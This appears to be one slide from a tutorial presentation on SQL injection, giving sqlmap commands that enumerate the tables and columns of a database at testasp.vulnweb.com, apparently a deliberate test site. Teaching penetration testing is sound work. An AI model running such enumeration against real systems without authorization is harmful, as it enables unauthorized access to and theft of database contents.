

# Steps To Reproduce (Continued...)
The below command lists all the tables present in the particular database (say databasename) present at the server's Database.
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -D databasename --tables
The below command lists all the column of specified table (say tablename) :-
sudo sqlmap -u "http://testasp.vulnweb.com/showforum.asp?id=0" -T tablename --columns